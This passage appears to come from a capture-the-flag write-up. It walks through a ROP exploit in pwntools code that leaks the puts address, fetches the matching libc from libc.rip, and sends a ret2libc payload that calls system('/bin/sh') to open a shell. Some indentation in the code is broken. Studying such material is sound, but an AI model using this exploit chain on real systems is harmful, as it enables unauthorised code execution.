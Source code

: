 ```python  
log.info('puts: ' + hex(puts))  
```

This is basic ROP 101, use `pop rdi` and have `puts` _put_ itself out there,
then circle back to `main` for a second pass.

This is all enclosed in a while loop is for finding libc.  Although we can get
it from the container, with many CTF challenges that is not an option.  I've
been using this to lazily just find the correct libc:

```python  
   import requests  
   r = requests.post('https://libc.rip/api/find', json =
{'symbols':{'puts':hex(puts)[-3:]}})  
   while True:  
       libc_url = r.json()[libc_index]['download_url']  
       if context.arch in libc_url:  
           break  
       libc_index += 1  
log.info('libc_url: ' + libc_url)  
   libc_file = libc_url.split('/')[-1:][0]  
   if not os.path.exists(libc_file):  
log.info('getting: ' + libc_url)  
       r = requests.get(libc_url, allow_redirects=True)  
       open(libc_file,'wb').write(r.content)  
```

This code attempts to find and download the matching libc based on arch and
the last three nibbles of the `puts` function.

```python  
   libc = ELF(libc_file)  
   libc.address = puts - libc.sym.puts  
log.info('libc.address: ' + hex(libc.address))

   payload  = 2 * b'A'  
   payload += (offset - len(payload)) * b'\0'  
   payload += p64(pop_rdi + 1)  
   payload += p64(pop_rdi)  
   payload += p64(libc.search(b'/bin/sh').__next__())  
   payload += p64(libc.sym.system)

   p.sendlineafter('return.\n',payload)

   try:  
       p.sendline('echo shell')  
       if b'shell' in p.recvline():  
           p.interactive()  
           break  
   except:  
       libc_index += 1  
       p.close()  
```
